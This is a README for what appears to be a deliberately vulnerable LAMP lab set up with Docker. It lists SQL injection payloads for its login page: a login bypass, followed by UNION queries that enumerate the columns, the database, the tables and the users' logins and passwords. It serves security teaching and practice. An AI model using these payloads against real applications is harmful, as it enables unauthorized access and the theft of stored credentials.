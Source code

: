 # Vulnerable LAMP

Exploiting a LAMP server using different techniques

## Getting started

### Prerequisites

* Docker

### Usage

After cloning the repo and cd-ing into it
```
docker-compose up -d
```

## Vulnarabilities

### SQL Injection

On the login page, type **admin' or 1=1;#** and anything as a password (but not empty)
With that we bypassed login screen.

We can get more information:
* Number of columns: **admin' or 1=1 order by 7;#** if we order by 8 we'll get an error
* Used columns: **admin' union select 1,2,3,4,5,6,7;#**
* Database's name: **admin' union select 1,2,database(),4,5,6,7;#**
* Tables' names: **admin' union select 1,2,group_concat(table_name),4,5,6,7 from information_schema.tables where table_schema=database();#**
* Table's columns: **admin' union select 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_name='users';#**
* Users' login: **admin' union select 1,group_concat(login),3,4,5,6,7 from users;#
* Users' password: **admin' union select 1,group_concat(mot_de_passe),3,4,5,6,7 from users;#**

